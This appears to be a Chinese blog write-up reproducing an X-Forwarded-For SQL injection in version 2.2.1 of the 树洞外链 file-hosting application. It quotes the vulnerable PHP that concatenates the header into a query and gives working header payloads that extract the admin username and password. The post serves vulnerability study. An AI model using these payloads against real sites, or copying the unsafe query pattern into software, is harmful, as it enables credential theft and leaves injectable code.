 ```yaml
---
title: 树洞外链X_FORWARDED_FOR注入漏洞复现
date: 2019-07-25 14:20:00
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 漏洞复现
    - 树洞外链
---
```

# 一、漏洞概述
树洞外链现在已经停止更新，作者又开发了[Cloudreve](https://github.com/cloudreve/Cloudreve)，有兴趣可以了解一下。
回归正题，虽然树洞已经停止更新了，还是可以做一些研究学习。
树洞外链存在X_FORWARDED_FOR注入漏洞，最新版本的已经修复了，2.2.1版本的可以复现。

***

# 二、漏洞分析

在`/includes/function.php`的37行左右，获取了X_FORWARDED_FOR，并未做防注入过滤 
```
function get_real_ip(){
$ip=false;
if(!empty($_SERVER["HTTP_CLIENT_IP"])){
$ip = $_SERVER["HTTP_CLIENT_IP"];
}
if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
$ips = explode (", ", $_SERVER['HTTP_X_FORWARDED_FOR']);
if ($ip) { array_unshift($ips, $ip); $ip = FALSE; }
for ($i = 0; $i < count($ips); $i++) {
if (!eregi ("^(10|172\.16|192\.168)\.", $ips[$i])) {
$ip = $ips[$i];
break;
}
}
}
return ($ip ? $ip : $_SERVER['REMOTE_ADDR']);
}
```

然后在`includes/save.php`  20行左右发现调用`get_real_ip()`函数

```
$ip=get_real_ip();
$dd=date('Y-m-d H:i:s');
$rand = md5(time() . mt_rand(0,1000));
$stmt = $con->prepare("INSERT INTO  `$sqlname`.`sd_file` (`ming` ,`key1` ,`uploadip` ,`uploadtime` ,`cishuo` ,`upuser` ,`policyid`)VALUES (?, '$rand', '$ip', '$dd', '0' , '$uploadUser', '$policyId');");

$stmt->bind_param('s', $ming);
```

***

# 三、漏洞复现

下载树洞外链源码，本地搭建环境。
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726110921.png)

注册账号登陆，然后打开burpsuite，关掉拦截
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111147.png)

然后上传文件，在HTTP history里找到`/includes/save.php`,发送到Repeater
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111306.png)

构造payload并发送(UID改成自己的用户ID，个人详情里面可以查看)

```
X-Forwarded-For: 1.1.1.1',user(),'0',UID,UID); #

ming=aa
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111644.png)

然后在**我的文件**里面可以看到执行结果
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111744.png)


爆用户名: 
`X-Forwarded-For: 1.1.1.1′,(select username from sd_user where id=1),’0′,uid,uid); # `

爆密码: 
`X-Forwarded-For: 1.1.1.1′,(select pwdfrom sd_user where id=1),’0′,uid,uid); #`

***
# 参考文章
[代码审计树洞X_FORWARDED_FOR注入](https://www.freebuf.com/column/179363.html)
[代码审计之头部注入X-Forwarded-For](https://blog.csdn.net/qq_21510303/article/details/91886405)